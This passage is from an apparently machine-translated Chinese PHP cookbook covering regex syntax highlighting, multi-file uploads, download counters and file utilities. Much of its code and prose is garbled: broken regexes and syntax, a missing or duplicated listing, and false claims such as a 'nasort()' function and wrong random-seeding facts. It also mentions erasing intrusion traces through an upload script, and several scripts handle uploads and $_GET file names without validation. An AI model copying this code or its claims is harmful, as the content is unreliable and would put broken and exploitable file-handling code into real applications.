$content = preg_replace("\\\[url\]\s*([^\S]+)\s*\\/url\]#isu",
      '<a href=\1" target_blank=\1>',
      $content);

// 处理标签 [url link] link name [/url]
$content = preg_replace("\\\[url\s*([^\S]+)\s*([^\S]+)\\\/url\]#isu",
      '<a href=\1" target_blank=\2>',
      $content);

echo nl2br($content);
?>
```

### II.2.14. 高亮 PHP 代码

高亮PHP代码的脚本位于列表II.2.17中。

### 列表 II.2.17. 高亮 PHP 代码

```php
<?php
function light($document)
{
// 处理角括号以显示 HTML 标签
$document = str_replace("<", "&lt;", $document);
$document = str_replace(">", "&gt;", $document);
// 处理 PHP 标签 <?php 和 ?>
$tags = array("&lt;php?si", "\\?&gt;si");
$replace = array("<font color=#95001E>&lt;php", "</font color=#95001E>");
$document = preg_replace($tags, $replace, $document);
// 处理注释
$document = preg_replace("\\*(?:|/])\\*[\n].*", "si",
```

## 第 II 节：正则表达式 141

```php
"<font color=#24ECC>\1</font>", $document);
```

```php
// 处理软回
$document = preg_replace("(\n)si","br>\1", $document);
// 处理函数
$document = preg_replace("(\\w+)+([\s]*) \\(\\)'si",
"<font color=#000CC><b>\1</b></font>\2",
$);
```

```php
// 处理运算符
$separator = array("',si",
"'-si",
"'+si",
"\\('si",
"\\')si",
"\\)si");
```

```php
$replace = array("<font color = #1A69A,</font>",
"<font color = #1A69A--</font>",
"<font color = #1A69A+</font>",
"<font color = #1A69A(\font>",
"<font color = #1A69A))</font>",
"<font color = #1A69A>{</font>",
"<font color = #1A69A></font>");
```

```php
$document = preg_replace($separator, $document);
// PHP 变量
$document = preg_replace("(\$[A-Za-z0-9_]+*)", "si",
"<font color=#0000CC>\1</font>",
$document);
```

```php
// 处理单双双引号中的字符串
$str = array("\\'si",
"\"'si");
$replace = array("<font color = #FF00\">\1</font>",
"<font color = #FF00\">\1</font>");
$document = preg_replace($str, $replace, $document);
```

## 155 第二部分：解决方案

```php
$replace = array_fill(0,
    count($str),
    "<b><font color=#000CC>\1</font></b>");
$document = preg_replace($str, $replace, $document);
```

```php
// 返回函数的结果
return <code>$document</code>;
}
```

## 第 II.2 章：正则表达式 143

换行符通过在所有换行符 (`\n`) 前面加上 HTML 软回车标签 `<br>` 来。这使得在浏览器窗口中显示 PHP 源代码时，能够保留其原始格式。

在下一个阶段，对函数进行高亮显示。PHP 拥有海量的函数；程序员也可以定义自己的函数。因此，创建一个所有可能函数的列表的典型方法是不行的。另一方面，所有函数都有一个共同点：在声明时，它们后面跟着一个括在括号中的参数列表，该列表通常为空。函数名后面可以跟随着任意数量的空格字符，甚至是回车字符。因此，正则表达式为 `\(\w+)(\s*)?\(\)i`。函数名的正则表达式为 `\(\w)+`，它指定了一个或多个字母。函数名后的空格由正则表达式 `\(\s)*` 表示。最后，左括号由正则表达式 `\(\[ \ ` 表示。


`[\w]` 表达式等同于 `[a-zA-Z0-9]` 表达式；`[\s]` 表达式等同于 `[\f\n\r\t\v]` 表达式。

`preg_replace()` 函数的第二个参数使用了两个括号子表达式保存的结果：`\1` 对应函数名，`\2` 对应名称与左括号之间的空格。

在处理函数后，运算符被高亮为深绿色。最后阶段是将 PHP 保留关键字（例如 while、if 和 else）高亮为深蓝色。由于在其他程序元素的背景下选择这些关键字相当困难，它们被包含在括号内并存储在数组中。这确保了它们被保存为第一个参数 (`\1`)。作为 `preg_replace()` 函数第二个参数的 `$replace` 替换数组使用 `array_fill()` 函数自动形成。为了高亮显示用于其他编程语言的关键字，必须将该语言的关键字放置在 `$str` 数组中。

## 第 II.3 章：文件操作


### II.3.1. 上传文件

为了可以使用不受限制的文件选择字段，你将不得不使用 JavaScript 客户端语言动态创建一个 HTML 表单（列表 II.3.1）。该脚本要求 Web 应用程序所在的目录包含一个名为 `files` 的子目录，其访问权限允许脚本对其写入。


> Web 应用程序构建为将 HTML 表单及其处理器包含在同一个文件中。然而，也可以将 HTML 表单和处理器放在不同的文件中。

## 列表 II.3.1. 上传不受数量限制的文件

```html
<form enctype='multipart/form-data' method=post>
<table>
<tr>
<td><input type="file" size="50" name="att[]" class="input"></td></td>td>
<td><input type="button" name="drop"
value="&amp;" onclick="dropFile(this);">
<input type="button" value=" + " onclick="addFile(this);"></td></td>
</tr>
</table>
<input class="button" type=submit value='Upload'>
</form>
<script language='Javascript.1' type='text/javascript'>
<!--
function dropFile(btn)
{
 if(document.getElementById)
{
    while (btn.tagName != 'TR') btn = btn.parentNode;
    btn.parentNode.removeChild(btn);
 }
}
function addFile(btn)
{
 if(document.getElementById)
{
    while (btn.tagName != 'TR') btn = btn.parentNode;
    var newTr = btn.parentNode.insertBefore(btn.cloneNode(true),
    btn.nextSibling);
    thisChildren = newTr.getElementsByTagName('td');
    for (var i = 0; i < thisChildren.length; i++)
    {
        if (thisChildren[i].className == 'files')
        thisChildren[i].innerHTML='<input size="32" name="att[]"
        class="input" type="file">';
    }
 }
n-->
</script>
<?php
// HTML 表单处理器
// 上传所有文件
for($i = 0; $i < count($_FILES['att']['name']); $i++)
{
```
```php
// 将文件从临时目录移动到
// Web 应用程序的 files 子目录
if (copy($_FILES['att']]['tmp_name'][$i])) {
    unlink("files/" . $_FILES['att']['name'][$i]);
}

} else
{
    // 删除临时目录中的文件
    unlink($_FILES['att']]['tmp_name'][$i]);
    // 修改文件的访问权限
    chmod("files/" . $_FILES['att']['name'][$i], 0644);
}
}
```
```php
// 如果 $POST 全局数组
// 不为空，则自动重新加载页面
if(!empty($_POST)) {
```
```php
echo "HTML<HEAD>
<META HTTP-EQUIV = 'Refresh' CONTENT = '0; URL = " . $_SERVER['PHP_SELF'] . '\'>
</HEAD>HTML";
}
```

`enctype` 属性决定了表单的编码方式，默认值为 `application/x-www-form-urlencoded`。为了文件上传工作，其值必须设置为 `multipart/form-data`。`enctype` 属性允许 PHP 源代码在浏览器窗口中显示时，保留其原始格式。

`copy()` 函数将文件从临时目录移动到 Web 应用程序的 `files` 子目录。`unlink()` 函数删除了临时目录中的文件。`chmod()` 修改了文件的访问权限。

如果 `$POST` 全局数组不为空，则自动重新加载页面。

# 第 II.3 章：文件操作



图 II.3.1. 编辑 upload.php 文件

现在，为了清除你在入侵期间留下的痕迹，你所做的就是重新上传并运行 `upload.php` 文件：服务器上既不会留下 `upload.php` 文件留下 `1.php` 文件。

除了结构化查询语言（SQL）注入外，这是最常见的入侵技术，常见于论坛、聊天室、相册或任何允许用户向服务器上传文件的 Web 应用程序。

防止此类入侵的最佳方法是对比加载文件实施一刀切的禁止，然后只允许上传特定类型的文件。这种防御可以通过使用如列表 II.3.3 所示的脚本分析文件扩展名来实现。

### II.3.3. 保护脚本

```php
<form enctype='multipart/form-data' method=post>
<input type="file" size="32" name="filename"><br>
<input class="button" type=submit value='Upload'>
</form>
```

## 第 II 部分：解决方案

```php
<?php
// HTML 表单处理器
if(!empty($_FILES['filename']['tmp_name']))
{
    // 提取文件的扩展名
    $ext = strtolower(strrchr($_FILES['filename']['name'], "."));
    // 仅允许上传特定
    // 格式的文件
    $extensions = array(".jpg", ".gif");
    // 检查文件的扩展名是否与
    // 允许的扩展名列表匹配
    if(in_array($ext, $extensions)) {
        // 将文件保存到当前目录
        if(copy($_FILES['filename']['tmp_name'],
            $_FILES['filename']['name'])) {
            echo "File upload successful: <a href=" .
                $_FILES['filename']['name'] . ">" .
                $_FILES['filename']['name'] . "</a>";
        }
    } else {
        // 文件的扩展名不在允许列表中。
        echo "Only images can be uploaded!";
    }
}
?>
```

文件 `$file` 上传到服务器后，脚本会提取其扩展名并将其放入 `$ext` 变量中。允许上传的文件扩展名存储在 `$extensions` 数组中。如果上传文件的扩展名与 `$extensions` 数组中存储的某个匹配，则将文件从临时目录复制到目标目录。否则，文件将被忽略。

虽然可以通过更改扩展名（例如改为 `.gif`）来上传恶意脚本，但一旦上传，它就无法被执行。要执行此类扩展名的文件，必须将该扩展名与解释器关联，而这是无法实现的。

## 第 II.3 章：文件操作 151

验证上传文件的另一种方法是检查存储在 `$_FILES['filename']['type']` 数组元素中的文件类型。对于上传的图形文件，`image/gif`、`image/jpeg` 等值会被放入此数组元素中，而 `text/plain` 值则用于 PHP 和 HTML 文件。如果只允许上传图形文件，可以使用类似于列表 II.3.4 所示的脚本通过检查此数组元素来验证它们的有效性。

### II.3.4. 使用 `$_FILES['filename']['type']` 数组元素验证文件

然而，仅允许少数文件格式并不总是足够的。例如，论坛要求用户能够上传所有类型的文件。在这种情况下，必须将可执行文件的扩展名更改为无害的 .txt 扩展名。

## 第 II 部分：解决方案

此任务通过创建一个数组来存储必须更改为 .txt 扩展的文件扩展名列表完成（列表 II.3.5）。

### II.3.5. 将危险的文件扩展名更改为 .txt 扩展

```php
<form enctype='multipart/form-data' method=post>
<input type="file" size="32" name="filename"><br>
<input class="button" type="submit" value='Upload'>
</form>
<?php
// HTML 表单处理器
if(!empty($_FILES['filename']['tmp_name'])) {
    // 提取文件的扩展名
    $ext = strtolower(strrchr($_FILES['filename']['name'], ".
```

## II.3.4. 下载计数器

所有的下载计数器都基于这样一个原理：给用户的链接不是指向文件本身，而是指向一个记录下载并将文件发送给用户的脚本链接。

用于解决所提问题（计算文件下载次数）的脚本构造如下：下载文件的链接被实现为指向当前页面的链接，并将文件名作为参数传递：例如 `index.php?down=archive.zip`。脚本检查是否传递了 `down` 参数，如果是，则在 `filecount.txt` 文件中记录下载。每当页面加载时，每个存档的计数值都会从该文件中提取并显示在浏览器窗口中。通过向用户发送一个命名的 HTTP 头部（该头部包含下载存档的链接）来提供请求的文件进行下载。实际的文件下载脚本可能类似于列表 II.3.6 所示。

> 注意：在文件中存储工业和大型系统的统计信息更为方便。

### II.3.6. 文件下载计数器

```php
<?php
// 在数组中注册文件名
$file_name = array('archive1.zip', 'archive2.zip', 'archive3.zip');

// 存储统计信息的文件
$countname = "filecount.txt";
// 如果文件存在，将当前的
// 统计数据读入数组。
if (file_exists($countname)) {
    $fd = fopen($countname, "r");
    $content = fread($fd, filesize($countname));
    fclose($fd);
    // 反序列化数组
    $count = unserialize($content);
}
```
```php
}
// 如果文件不存在，则创建
// 它并将统计数据清零
else {
    // 将 $count 数组清零
    foreach ($file_name as $file) {
        $count[$file] = 0;
    }
    // 创建统计文件
    $fd = fopen($countname, "w");
    // 序列化数组
    fwrite($fd, serialize($count));
    fclose($fd);
}

// 使用 GET 方法检查是否传递了
// down 参数
if(isset($_GET['down'])) {
    // 检查 GET['down'] 是否在
    // $file_name 数组中
    if(in_array($_GET['down'], $file_name)) {
        // 记录下载
        // 递增 GET['down'] 的值
        $count[$GET['down']]++;
        // 更新计数文件
        $fd = fopen($countname, "w");
        // 序列化数组
        fwrite($fd, serialize($count));
        fclose($fd);
    }
    // 提供下载文件的链接
    header("Location: " . $_GET['down']);
}

// 显示文件的链接
```

## 第 II.3 章：文件操作 155

```php
foreach($file_name as $file) {
  echo "File <a href=" . $_SERVER['PHP_SELF'] . "?down=" . $file . ">$file</a> has been downloaded " . $count[$file] . " time(s).<br>";
} ?>
```

下载的文件名存储在 `$file_name` 数组中；当添加新的下载存档时，它会自动注册到系统中。提前注册有几个原因：首先，当通过 `down` 参数传递时，必须检查它是否允许下载。其次，处理数组比单独处理文件要容易得多。因此，存储文件下载次数的 $count 数组会自动创建。为了方便，使用 `serialize()` 函数将 $count 数组转换为字节流表示字符串，并使用 `unserialize()` 函数还原值。

> 请记住所有的头部只能在发送正文之前发送。以不同的顺序发送是不可能的；PHP 解释器将发出以下警告信息：“Warning: Cannot modify header information— already sent by。”这是因为 HTTP 先发送头部，然后发送文档内容。因此，任何到浏览器窗口的初始输出都被解释为带有预期正文的头部。如果无法在发送缓冲区之前发送内容，可以使用输出控制函数将输出放入缓冲区，并在脚本执行结束将其发送浏览器窗口。

当脚本第一次运行时，`filecount.txt` 文件不存在。它在第一次加载页面时创建。创建过程是由 $file_name 中每个文件的 0 值启动的。

## II.5. 保存文本和图形文件

浏览器只有在知道内容时才能解释文件。浏览器从服务器学习文件内容，因为每个文件都附带 HTTP 头部，告知客户端文件内容、大小以及其他服务信息（例如需要设置 cookie）。如果文件类型未知，则将以二进制流的形式发送。

# 156 第二部分：解决方案

HTTP 头部将在 II.10 节中进行详细讨论。

开发一个用于存储文本和图形文件的脚本的问题可以通过 HTTP 头部解决，如列表 II.3.7 所示。

## 列表 II.3.7. 用于保存文本和图形文件的脚本

脚本通过 GET 参数接收文件名，例如 `index.php?down=file.txt`。要保存的文件名由 `filename` 属性决定，并通过第一个 HTTP 头部指定。在脚本中，`filename` 参数与文件名相同，但可以使用任何名称。第二个 HTTP 头部告诉浏览器该文件是二进制文件，不应被解释。第三行使用 `file_get_contents()` 函数提取通过 `$_GET['down']` 参数发送的文件内容并在浏览器窗口中显示它们。

重要的一点是，在输出文件内容后，不要通过 `echo` 语句或直接输出向流输出任何其他内容；否则所有内容都将追加到文件中。这包括关闭 `?>` 标签后可能存在的空格和换行符。

## II.3.6. 确定文件大小

可以使用 `filesize()` 函数确定文件大小，该函数接受文件名作为参数，并根据文件的大小返回字节、千字节或兆字节的大小。可以通过如列表 II.3.8 所示的脚本确定大小。

## 第 II.3 节：文件操作 157

## 列表 II.3.8. 确定文件大小的函数

```php
<?php
echo filesize($_GET['name']);
// 一个确定文件大小的函数
function getfilesize($filename)
{
    // 检查文件是否存在
    if(!file_exists($filename)) return "No such file";
    // 确定文件的大小
    $filesize = filesize($filename);
    // 如果文件大于 1024 字节，
    // 计算千字节大小
    if($filesize > 1024)
    {
        $filesize = (float) ($filesize/1024);
        // 如果文件大于 1024 KB，
        // 计算兆字节大小
        if($filesize > 1024)
        {
            $filesize = (float) ($filesize/1024);
            // 保留第一位小数
            $filesize = round($filesize, 1);
            return $filesize." MB";
        }
        else
        {
            // 保留第一位小数
            $filesize = round($filesize, 1);
            return $filesize." KB";
        }
    }
    else
    {
        return $filesize." byte";
    }
}?>
```

脚本获取文件名作为参数，首先检查 `filesize()` 函数返回的文件大小是否大于 1 KB，然后检查它是否大于 1 MB。在每情况下，都会返回相应单位下的文件大小。

## II.3.7. 确定文件中的行数


计算行的最简单解决方案是使用 `file()` 函数。该函数接受文件名作为参数并返回一个数组，数组中的每个元素包含文件的一行。剩余的任务是计算返回数组中的元素数量。解决该问题的脚本如列表 II.3.9 所示。

## 列表 II.3.9. 确定文件的行数

```php
<?php
echo getlinecount($_GET['name']);

function getlinecount($filename)
{
    // 检查文件是否存在
    if(!$file_exists($filename)) return "No such file!";
    // 使用 file() 函数将文件
    // 分成单独的行
    $filearr = file($filename);
    // 计算并返回文件的行数
    return count($filearr);
}
?>
```

## II.3.8. 反转文件中的行顺序

与上一个示例一样，行顺序问题可以使用 `file()` 函数将文件拆分为单独的行来解决。可以使用 `array_reverse()` 函数反转获取数组中的行顺序。最后，使用 `implode()` 函数将数组转换为字符串，然后写入文件（列表 II.3.10）。

### 第 II.3 节：文件操作 159

## 列表 II.3.10. 反转文件的行顺序

```php
<?php
// 使用 file() 函数将文件
// 分成单独的行
$Arr = file("text.txt");
// 反转数组顺序
$Arr = array_reverse($Arr);
// 将数组转换为字符串并
// 重写 text.txt 文件的内容
$fd = fopen("text.txt", "w");
if ($fd) {
    fwrite($fd, implode("", $Arr));
    fclose($fd);
}
?>
```

## II.3.9. 列出文件和子目录

遍历目录及其子目录的最佳方法是递归进入目录树。可以使用 `scan_dir()` 脚本（列表 II.3.11）完成，它可以提取当前目录的内容并显示文件和子目录的名称。如果函数遇到子目录，将递归地调用自身并将子目录作为参数传递。

列出文件和子目录。

## 列表 II.3.11. 列出文件和子目录

```php
<?php
///////////////////////////////////////
// 一个进入目录树的递归函数
///////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
```

第二部分：解决方案

$dirname = ".";

// 调用递归处理根目录

// 子目录的函数

scan_dir($dirname);

在遍历目录时，必须排除 `.`（当前目录）和 `..`（父目录）以防止死循环。

## II.3.10. 统计文件

统计文件的问题也使用递归下降技术解决（列表 II.3.12）。然而，只有当当前项是目录时才会显示信息。目录中的文件使用 `filesize()` 函数计数。

### 第 II.3 节：文件操作

## 列表 II.3.12. 统计目录中的文件

```php
<?php
////////////////////////////////////////////////
// 一个进入目录树的递归函数
////////////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取当前目录
    while (($file = readdir($dir)) != false)
    {
        // 检查变量 $file 是否等于
        // 当前或上级目录
        if($file != "." && $file != "..")
        {
            // 如果当前项是目录，
            // 调用 scan_dir() 函数
            if(is_dir($dirname."/"$file))
            {
                echo $dirname."/"$file." - ";
                file_count($dirname."/"$file)."<br>";
                scan_dir($dirname."/"$file);
            }
        }
    }
    // 关闭目录
    closedir($dir);
}
////////////////////////////////////////////////
// 一个统计目录中文件的函数
////////////////////////////////////////////////
function file_count($dirname)
{
    // 计数器变量
    $count = 0;
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取目录内容
    while($file = readdir($dir))
    {
      // 如果当前项是文件，则计数
      if(is_file($dirname."/"$file)) ++$count;
    }
    // 关闭目录
    closedir($dir);
    return $count;
}
```

162 第二部分：解决方案

## II.3.11. 统计项目文件的行数

项目文件的行数通过递归遍历项目目录，并统计扩展名与 `$extensions` 数组中指定的扩展匹配的文件行数（列表 II.3.13）。该数组被声明为全局变量，因此你不需要通过 `scan_dir()` 递归函数的参数传递它的引用。此外，还声明了存储当前行数的 `$count` 变量。

## 列表 II.3.13. 统计项目文件的行数

```php
<?php
///////////////////////////////////////
// 一个进入目录树的递归函数
///////////////////////////////////////
function scan_dir($dirname)
{
  // 声明全局替换变量
  GLOBAL $extensions, $count;
```

```php
// 打开当前目录
$dir = opendir($dirname);
// 循环读取当前目录
while (($file = readdir($dir)) != false)
{
    // 如果项是文件，则处理其内容
    if($file != "." && $file != "..")
    {
        // 如果当前项是一个文件，
        // 打开它以统计行数
        if(is_file($dirname."/"$file))
        {
            // 提取文件的扩展名
            $ext = strchr($dirname."/"$file, ".");
            foreach($extensions as $exten)
            if (preg_match($exten, $ext))
            {
                // 读取文件内容
                $content = file($dirname."/"$file);
                // 统计行数
                $count += count($content);
                // 删除数组
                unset($content);
            }
        }
        // 如果当前项是一个目录，
        // 递归调用 scan_dir() 函数
        if(is_dir($dirname."/"$file))
        {
            scan_dir($dirname."/"$file);
        }
    }
}
// 关闭目录
closedir($dir);
}

// 项目根目录名称
$dirname = ".";

// 一个用于存储需要统计行数的
// 文件的扩展名的数组
$extensions = array("\\php#i");
$extensions = array("\\.cpp#i", "\\h#i");

// 行计数器（一个全局变量）
$count = 0;
// 调用函数递归进入
// 根目录的子目录
scan_dir($dirname);

// 显示行数
echo $count;
?>
```

## II.3.12. 替换所有子目录下所有文件中的字符串

在之前的两个遍历目录树的示例中，该问题通过递归下降方法解决（见列表 II.3.14）。执行此操作的 `scan_dir()` 函数包含两个全局变量 `$text` 和 `$retext`，分别持有目标文本和替换文本。

## 列表 II.3.14. 替换字符串

```php
<?php
////////////////////////////////////////////////////////////////////
// 用于递归进入目录树的函数
////////////////////////////////////////////////////////////////////
function scan_dir($dirname)
{
  // 全局替换变量
  GLOBAL $text, $retext;
  // 打开当前目录
  $dir = opendir($dirname);
  // 循环读取当前目录
  while (($file = readdir($dir)) != false)
{
$text = '\$text'; // 目标字符串
$retext = '\$retext'; // 替换字符串
$dirname = "."; // 当前目录名称
scan_dir($dirname); // 调用递归函数
?>
```

## II.3.13. 分段上传文件

假设有一个文件 `site.rar`，它必须被分成若干部分，每个大小为 10,000 字节。列表 II.3.15 显示了一个可以执行此任务的脚本。

### 列表 II.3.15. 将文件拆分

```php
<?php
// 文件名
$filename = "site.rar";
// 将文件分成 10,000 字节的部分
$piece = 10000;
// 打开源文件进行读取
$fp = fopen($filename, "r");
// 将文件内容读取到缓冲区
$buffer = fread($fp, filesize($filename));
// 关闭文件
close($fp);
// 计算部分数，
// 文件应该被拆分的份数
$count = (int)filesize($filename)/$piece;
if((float)filesize($filename)/$piece) - $count != 0) $count++;
// 循环将 $buffer 变量中的
// 文件内容拆分成部分
for($i = 0; $i < $count; ++$i) {
    $part = substr($buffer,$i*$piece,$piece);
    // 将当前部分保存到单独的文件
    $fp = fopen("site.tm".$i, "w");
    fwrite($fp, $part);
    fclose($fp);
}
?>
```

脚本生成的每个部分都被赋予了扩展名 `.tmN`，其中 N 是部分编号。列表 II.3.16 显示的脚本执行了从部分组装文件的相反任务。

### 列表 II.3.16. 从部分组装文件

```php
<?php
$buffer = "";
for($i = 0; $i < 100000; ++$i) {
    // 生成文件名
$filename = "site.tm";$i;
// 如果存在此名称的文件，
// 将其内容添加到 $buffer
if (file_exists($filename)) {
    $fp = fopen($filename, "r");
    $buffer = fread($fp, filesize($filename));
    fclose($fp);
} else {
    // 如果没有此类名称的文件，
    // 退出循环
    break;
}
// 将组装在 $buffer 
// 变量中的部分放入最终文件
$fp = fopen("site_final.rar", "w");
fwrite($fp, $buffer);
fclose($fp);
}
?>
```

## II.3.14. 删除目录

可以通过递归过程删除目录及其所有内容，在该过程中，通过 `unlink()` 函数的帮助移除当前目录中的所有文件，然后使用 `rmdir()` 函数删除目录本身（见列表 II.3.17）。

### 列表 II.3.17. 删除目录及其内容

```php
<?php
// 定义一个用于删除
// 无限嵌套层级目录的递归函数
function full_del_dir($directory) {
    $dir = opendir($directory);
    while(($file = readdir($dir))) {
// 如果 readdir() 函数返回一个文件，
// 删除它
if (is_file("$directory/$file")) unlink("$directory/$file");
// 如果 readdir() 函数返回一个不是当前目录或父目录的目录，
// 则为该目录调用 full_del_dir() 函数
else if (is_dir("$directory/$file")) &&
    $file != "." &&
    $file != ".."
{
    full_del_dir("$directory/$file");
}
closedir($directory);
rmdir($directory);
echo("The directory has been deleted.");

full_del_dir("$temp");
?>
```

## II.3.15. 从文件中随机输出

输出随机行的这一问题需要 `rand()` 函数（见列表 II.3.18）。该函数的语法如下：

```php
int rand (int min, int max);
```

该函数在两个可选整数参数 `min` 和 `max` 指定的范围内生成一个随机整数。如果未指定参数，函数将在 0 到 `RAND_MAX` (32,768) 范围内生成随机整数。

除非为随机数生成器设置种子，否则它总是生成相同的序列。通常会手动为随机数生成器设置。在 PHP 中，使用 `rand()` 函数为随机数生成器种子。

## II.3.16. 编辑文件

要编辑文件，必须读取其内容。然后必须使用正则表达式找到必要的字符串并将其替换为指定的字符串。脚本示例见列表 II.3.19。

### 列表 II.3.19. 编辑文件

```php
<?php
// 查找索引为 7 的行
$index = 7;
// 文件名
$filename = "text.txt";
// 打开源文件进行读取
$fp = fopen($filename, "r");
// 读取文件内容
$buffer = fread($fp, filesize($filename));
// 关闭文件
fclose($fp);
// 定位带有 $index 索引的行
$buffer = preg_replace("|\\n]*", "$index C/ programming", $buffer);
// 保存更新后的结果
$fd = fopen($filename, "w");
fwrite($fd, $buffer);
fclose($fd);
?>
```

## II.3.17. 打乱文本文件行

文件中的行可以通过以下方式随机打乱（见列表 II.3.20）：从 `text.txt` 文件提取行并使用 `file()` 函数放入数组，然后使用 `shuffle()` 函数打乱数组的内容。

### 列表 II.3.20. 打乱文本文件行

```php
<?php
// 文件名
$filename = "text.txt";
// 读取文件内容
$lines = file($filename);
// 打乱数组元素
shuffle($lines);
// 移除所有尾部空格
array_walk($lines, 'trim_array');
// 保存更新后的结果
$fd = fopen($filename, "w");
fwrite($fd, implode("\r\n", $lines));
fclose($fd);
function trim_array(&$item, $key)
{
$item = trim($item);
}
?>
```


`array_walk()` 函数和 `trim_array()` 函数用于将中间 `$lines` 数组的每个元素传递给 `trim()` 函数以删除可能的开头和结尾的空格字符以及回车字符。

脚本对 `text.txt` 文件操作结果可能如列表 II.3.21 所示。

## 第 II.3 章：文件操作

### 列表 II.3.21. text.txt 文件的乱序内容

- 8 Pascal 编程
- 4 ASP.NET 编程
- 7 C++ 编程
- 10 汇编编程
- 3 JavaScript 编程
- 5 Java 编程
- 1 编程
- 6 Perl 编程
- 2 PHP 编程
- 9 Fortran 编程

为了对获得的文件进行排序，使用 `file()` 函数将其行加载到数组中并根据所需的排序顺序使用 `sort()` 或 `rsort()` 函数对数组进行排序。升序排序数组的脚本示例在列表 II.3.22 所示。

### 列表 II.3.22. 排序 text.txt 文件中的行

```php
<?php
// 文件名
$filename = "text.txt";
// 读取文件内容
$lines = file($filename);
// 按索引排序记录
sort($lines);
// 移除所有尾空格
array_walk($lines, 'trim');
// 保存更新后的结果
$fd = fopen($filename, "w");
fwrite($fd, implode("\r\n", $lines));
close($fd);
function trim_array(&$item, $key) {
    $item = trim($item);
}
?>
```

然而，结果并不符合预期：索引 10 跟在索引 1 之后（列表 II.3.23）。这是因为索引被视为字符串而不是数字。

### 列表 II.3.23. 排序后的文件

- 1 编程
- 10 汇编编程
- 3 JavaScript 编程
- 2 PHP 编程
- 4 ASP.NET 编程
- 5 Java 编程
- 6 Perl 编程
- 7 C++ 编程
- 8 Pascal 编程
- 9 Fortran 编程

这个缺陷可以使用 `nasort()` 函数来修复，该函数按自然顺序对字符串排序（列表 II.3.24）。

### 列表 II.3.24. 自然排序脚本

```php
<?php
// 文件名
$filename = "text.txt";
// 读取文件内容
$lines = file($filename);
// 按索引排序
nasort($lines);
// 移除所有尾空格
array_walk($lines, 'trim');
// 保存更新后的结果
$fd = fopen($filename, "w");
fwrite($fd, implode("\r\n", $lines));
fclose($fd);
function trim_array(&$item, $key)
{
  $item = trim($item);
}
?>
```

## 第 II.3 章：文件操作 173

使用自然顺序排序脚本的结果如列表 II.3.25 所示。

### 列表 II.3.25. 自然顺序排序的文件

- 1 编程
- 2 PHP 编程
- 3 JavaScript 编程
- 4 ASP.NET 编程
- 5 Java 编程
- 6 Perl 编程
- 7 C++ 编程
- 8 Pascal 编程
- 9 Fortran 编程
- 10 汇编编程

要根据索引后的文本信息对文件进行排序，必须将 `text.txt` 的内容加载到数组中，并将记录数作为数组索引，将文本字符串存储在相应的数组元素中。然后使用 `sort()` 函数对数组排序，该函数会保留元素索引与其内容之间的关联（列表 II.3.26）。

### 列表 II.3.26. 按文本内容排序

```php
<?php
// 文件名
$filename = "text.txt";
// 打开源文件进行读取
$fd = fopen($filename, "r");
// 读取文件内容
$buffer = fread($fd, filesize($filename));
// 关闭文件
close($fd);
// 使用正则表达式查找所有行
preg_match_all("/#(\d+)\ ([^\n]+) (\n|)$#U/",
$buffer,
$out,
PREG_PATTERN_ORDER);
// 构建一个临时数组
for($i = 0; $i < count($out[1]); $i++)
(
```

使用正则表达式 `#([\d]+) ([^\n]+) (\n|\s*$))#U` 找到文件中的下一行。第一个括号内的表达式对应数字；第二个括号内的表达式对应除换行符 (`\n`) 外的任何字符序列。最后一个括号内的表达式对应换行符或行结束符 (`$`)。搜索行结束符是为了正确识别最后一行，最后一行不以换行符结束。

使用列表 II.3.26 中脚本的结果如列表 II.3.27 所示。注意，尽管此脚本按文本内容的字母顺序对文件进行排序，但默认情况下，`asort()` 函数将字符串视为二进制序列（例如，PHP 比 Pascal 大）。

### 列表 II.3.27. 按文本内容排序的 text.txt 文件

- 4 ASP.NET 编程
- 10 汇编编程
- 7 C++ 编程
- 9 Fortran 编程
- 5 Java 编程
- 3 JavaScript 编程
- 2 PHP 编程
- 8 Pascal 编程
- 6 Perl 编程
- 1 编程

### II.3.18. 向文件添加记录

要向文本文件添加新记录，必须确定最大索引值。接下来，向文件中添加索引等于最大值加一的行。最后，保存更新后的文件（列表 II.3.28）。

### II.3.28. 向文件添加记录

```php
<?php
// 文件名
$filename = "text.txt";
$str = "Pascal programming";
// 确定最大索引
$arr = file($filename);
$maxval = 0;
foreach($arr as $line) {
    preg_match('/^(\d+)([^\n]+)$/', $line, $out);
    if ($maxval < $out[1]) $maxval = $out[1];
}
// 读取文件
$content = file_get_contents($filename);
// 添加新行
$content = "\n".($maxval + 1).$str;
// 保存更新后的结果
$fd = fopen($filename, "w");
fwrite($fd, $content);
fclose($fd);
?>
```

### II.3.19. 输出页面

为了每三条记录一页输出文件内容，必须提取文件内容并仅显示指定的三个条记录（列表 II.3.29）。在此实现中，每页记录数存储在 `$number` 变量中并可以进行修改。

### 列表 II.3.29. 输出页面

```php
<?php
// 文件名
$filename = "text.txt";
$str = "Pascal programming";
// 确定最大索引
$arr = file($filename);
$maxval = 0;
foreach($arr as $line) {
    preg_match('/^(\d+)([^\n]+)$/', $line, $out);
    if ($maxval < $out[1]) $maxval = $out[1];
}
// 读取文件
$content = file_get_contents($filename);
// 添加新行
$content = "\n".($maxval + 1).$str;
// 保存更新后的结果
$fd = fopen($filename, "w");
fwrite($fd, $content);
fclose($fd);
?>
```

### II.3.20. 基于文件的注册系统

实现注册系统的脚本如列表 II.3.30 所示。它包含三个文本字段（姓名、电子邮件和 URL）、两个密码类型的字段（用于密码及其验证）以及一个将数据发送到处理器的按钮。

### 列表 II.3.30. 用户注册脚本

```php
// 数据文件的名称
$filename = "text.txt";
